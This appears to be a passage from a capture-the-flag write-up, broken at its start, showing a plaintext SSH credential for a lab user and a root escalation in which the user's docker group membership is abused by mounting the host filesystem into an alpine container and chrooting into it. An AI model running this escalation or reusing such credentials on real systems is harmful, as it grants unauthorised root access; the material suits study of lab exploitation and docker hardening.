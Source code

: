 ```

<img src="images/php.png">
<img src="images/base64.png">


ssh creds:

anurodh:!d0ntKn0wmYp@ssw0rd


## root

```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

```
anurodh@ubuntu:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        3 years ago         5.57MB
hello-world         latest              bf756fb1ae65        3 years ago         13.3kB

anurodh@ubuntu:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
#
```
